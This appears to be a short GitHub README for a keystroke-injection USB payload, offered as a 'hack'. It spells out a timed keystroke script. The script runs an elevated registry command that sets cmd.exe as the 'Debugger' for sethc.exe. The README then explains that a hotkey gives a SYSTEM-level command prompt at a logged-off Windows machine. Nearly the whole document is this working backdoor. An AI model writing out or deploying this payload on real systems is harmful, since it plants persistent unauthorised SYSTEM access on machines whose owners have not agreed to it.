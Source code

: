 # DISCLAIMER
***
This command prompt will close automatically due to the way this hack works (after about 3 minutes or so)  
This hack does require pre work and does require administrator privileges to modify the registry.  

### Pre work
***

* DELAY 400
* ESCAPE
* DELAY 200
* CONTROL ESCAPE
* DELAY 750
* STRING cmd.exe /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f"
* DELAY 750
* CTRL-SHIFT ENTER
* DELAY 1000
* ALT y
 
 
Left Alt + Left Shift + Print Screen to access the prompt.
Ok so that's the pre work done now when the users machine is logged off and you want to be able to execute commands or even if you just want to be able to execute commands as the system not as administrator all you need to do is press  
 Left Alt + Left Shift + Print Screen.  